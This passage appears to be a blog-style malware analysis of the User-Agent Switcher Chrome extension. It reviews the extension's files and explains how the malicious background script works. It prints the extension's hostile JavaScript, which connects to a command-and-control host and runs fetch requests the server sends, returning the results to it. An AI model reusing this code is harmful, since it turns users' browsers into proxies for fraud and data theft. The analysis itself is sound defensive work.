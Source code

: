 #### js/JsonValues.min.js

Taking a look at `js/JsonValues.min.js`, this file had several thousand lines of code appended to it. Pruning through, they're large, socket-oriented functions - so there's a good chance the added content is just the Socket.IO client. I wasn't certain that was the *only* content added to this file, so I ran it through [JS NICE](http://www.jsnice.org/) - a project which attempt to intelligently reassemble obfuscated or minified JavaScript by [SRI Lab](http://www.sri.inf.ethz.ch/) at [ETH Zürich](http://www.ethz.ch/) - to see if anything caught my eye after it was automatically annotated. Nothing did, so I took a couple notes and moved on.

#### js/background.min.js

It is quickly apparent that `js/background.min.js` contains most if not all of User-Agent Switcher's malicious components, especially since we already know that the `www.useragentswitch.com` domain is contained within it. Removing the noise from the version and minification differences between the extensions we're comparing, the malicious content the author added is only ~30 lines long. While simple, it gives the author more than enough control over a user's browser to perform malicious actions.

## Functionality

The way this malware works is fairly simple, since Socket.IO's client-side WebSockets library handles the complexities of making, managing, and interacting with WebSockets. However, since it is principally event- and hook-driven, it may be hard to interpret for observers who aren't familiar with JavaScript. We'll go through the malicious code in sections before bringing it all together.

#### Initializing

Chrome loads `background.html` on browser start, which in turn loads `js/background.min.js` and `js/JsonValues.min.js`. The first thing User-Agent Switcher's malicious component does is initialize a WebSocket to its Command & Control server, which is a one-liner thanks to Socket.IO:

```js
var userAgentSwitch = io("https://www.useragentswitch.com/");
```

#### Fraudulent Request Handling

It also registers two event hooks on the socket that was just created. The first processes incoming `createFetch` events, which detail fraudulent requests that your browser is being used to execute. These events are passed directly to an asynchronous `createFetch` function, which fetches the requested content, then the results are passed as events which it sends to the Command and Control server via `emit()`.

```js
userAgentSwitch.on("createFetch", async function(e) {
    let t = await createFetch(e);
    userAgentSwitch.emit(e.callBack, t)
});

async function createFetch(e) {
    let t = await fetch(e.uri, e.attr),
        s = {};
    return s.headerEntries = Array.from(t.headers.entries()), s.data = await t.text(), s.ok = t.ok, s.status = t.status, s
}
```

